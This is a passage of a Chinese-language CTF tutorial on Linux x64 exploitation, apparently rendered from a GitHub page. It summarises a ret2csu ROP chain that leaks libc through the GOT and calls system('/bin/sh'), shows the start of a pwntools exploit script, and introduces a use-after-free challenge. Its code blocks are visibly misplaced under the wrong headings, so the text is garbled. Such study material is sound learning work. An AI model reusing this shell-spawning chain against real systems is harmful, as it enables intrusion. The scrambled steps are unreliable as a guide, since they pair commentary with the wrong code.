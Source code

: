 ```
00007f76:f3c0bd57|2f 62 69 6e 2f 73 68 00 65                     |/bin/sh.e       |
```

总结:

> 返回到 0x40061a 控制`rbx,rbp,r12,r13,r14,r15`
> 
> 返回到 0x400600 执行`rdx=r13 rsi=r14 rdi=r15d call callq *(%r12,%rbx,8)`
> 
> 使 rbx=0 这样最后就可以`callq *(r12+rbx*8)`\=`callq *(r12)`可以构造 rop 使之能执行任意函数
> 
> 需要泄露真实 libc.so 在内存中的地址才能拿到 system\_addr, 才能 getshell, 那么返回调用`got_write(rdi=1,rsi=got_write,rdx=8)`，从服务端返回 write\_addr，通过 write\_addr 减去 - write\_static/libc.symbols\[‘write’\] 和 system\_static/libc.symbols\[‘system’\] 的差值得到 system\_addr，然后返回到 main 重新开始，但并没有结束进程
> 
> 返回调用 got\_read(rdi=0,bss\_addr,16), 相当于执行`got_read(rdi=0,bss_addr,8)`,`got_read(rdi=0,bss_addr+8,8)`, 发送 system\_addr,”/bin/sh”, 然后返回到 main 重新开始，但并没有结束进程
> 
> 返回到 bss\_addr(bss\_addr+8) -> system\_addr(binsh\_addr)

#### 开始构造 ROP

查看 got 表

```
// /dev/stdin    fd/0
// /dev/stdout   fd/1
// /dev/stderr   fd/2
```

然后利用代码如下:

```
panda@ubuntu:~/Desktop/test$ objdump -R linux\_x64\_test3

linux\_x64\_test3:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600ff8 R\_X86\_64\_GLOB\_DAT  \_\_gmon\_start\_\_
0000000000601018 R\_X86\_64\_JUMP\_SLOT  write@GLIBC\_2.2.5
0000000000601020 R\_X86\_64\_JUMP\_SLOT  read@GLIBC\_2.2.5
0000000000601028 R\_X86\_64\_JUMP\_SLOT  \_\_libc\_start\_main@GLIBC\_2.2.5
```

### 实践 4\_释放后使用（Use-After-Free）学习

用 2016HCTF\_fheap 作为学习目标，该题存在格式化字符漏洞和 UAF 漏洞。格式化字符串函数可以接受可变数量的参数，并将第一个参数作为格式化字符串，根据其来解析之后的参数。格式化字符漏洞是控制第一个参数可能导致任意地址读写。释放后使用（Use-After-Free）漏洞是内存块被释放后，其对应的指针没有被设置为 NULL, 再次申请内存块特殊改写内存导致任意地址读或劫持控制流。

#### 分析程序

checksec 查询发现全开了

```
#!/usr/bin/python
# -\*- coding: UTF-8 -\*-

from pwn import \*

libc\_elf = ELF("/lib/x86\_64-linux-gnu/libc.so.6")
linux\_x64\_test3\_elf = ELF("./linux\_x64\_test3")

# p = process("./linux\_x64\_test3")
p = remote("127.0.0.1",10001)

pop\_rbx\_rbp\_r12\_r13\_r14\_r15\_ret = 0x40061a
```
